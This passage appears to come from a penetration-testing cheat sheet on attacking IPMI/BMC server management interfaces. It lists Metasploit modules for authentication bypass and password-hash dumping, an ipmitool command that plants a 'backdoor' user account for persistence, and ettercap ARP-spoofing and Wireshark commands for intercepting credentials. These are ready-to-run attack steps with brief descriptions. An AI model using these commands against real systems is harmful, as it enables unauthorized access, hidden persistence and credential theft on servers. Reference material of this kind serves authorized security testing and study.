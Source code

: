 #### IPMI Authentication Bypass

*   **Tool:** \[\[Metasploit]]

    ```bash
    use exploit/linux/ipmi/ipmi_bypass
    ```
* **Description:** Bypasses authentication on vulnerable IPMI implementations to gain unauthorized access.

### Persistence

#### Create a New User Account

*   **Tool:** \[\[IPMITool]]

    ```bash
    ipmitool -I lanplus -H <target_ip> -U admin -P password user set name <user_id> backdoor
    ```
* **Description:** Creates a hidden user account on the BMC to maintain persistent access.

### Credential Harvesting

#### Packet Capture

*   **Tool:** \[\[Wireshark]]

    ```bash
    wireshark -i <interface> -f "tcp port <port>"
    ```
* **Description:** Capture traffic and extract plaintext credentials.

#### Man-in-the-Middle (MITM) Attack

*   **Tool:** \[\[ettercap]], \[\[BetterCap Cheat Sheet]]

    ```bash
    ettercap -Tq -i <interface> -M arp:remote /<target_ip>/ /<server_ip>/
    ```
* **Description:** Intercept and analyze traffic between the client and server, potentially capturing credentials by performing an ARP spoofing attack.

#### Password Hash Dumping

*   **Tool:** \[\[Metasploit]]

    ```bash
    use auxiliary/scanner/ipmi/ipmi_dumphashes
    ```
* **Description:** Dumps password hashes from the BMC, which can then be cracked offline.

\


*   **Tool:**

    ```bash
    ipmitool -I lanplus -H <target_ip> -U <username> -P <password> user list 1
    ```
* **Description:** Retrieve system password hashes and attempt to crack them offline.
